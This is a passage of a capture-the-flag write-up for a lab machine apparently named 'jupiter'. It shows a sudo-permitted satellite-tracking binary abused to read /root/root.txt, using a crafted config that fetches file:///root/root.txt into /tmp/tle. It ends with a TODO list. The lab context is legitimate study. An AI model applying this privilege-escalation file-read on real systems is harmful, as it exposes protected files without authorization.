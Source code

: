 ```bash
                "dis",
                "geo",
                "tab",
                "pos",
                "vel"
        ]
}
```

Well, ok, based on its documentation it does something: https://github.com/cole-hsv/sattrack

```bash
jovian@jupiter:~$ sudo /usr/local/bin/sattrack /usr/local/share/sattrack/config.json update
Satellite Tracking System
tleroot does not exist, creating it: /tmp/tle/
Get:0 http://celestrak.org/NORAD/elements/weather.txt
...
```

It is pulling files into `/tmp/tle`, which means we can pull /root/root.txt
```bash
jovian@jupiter:~$ sudo /usr/local/bin/sattrack /tmp/config.json update
Satellite Tracking System
Get:0 file:///root/root.txt
Get:1 http://celestrak.org/NORAD/elements/weather.txt
^C
jovian@jupiter:~$ file /tmp/tle/root.txt
/tmp/tle/root.txt: ASCII text
```

## TODOs

- Read about Postgresql CVE RCE vulnerability
- Advanced uses of `find` command
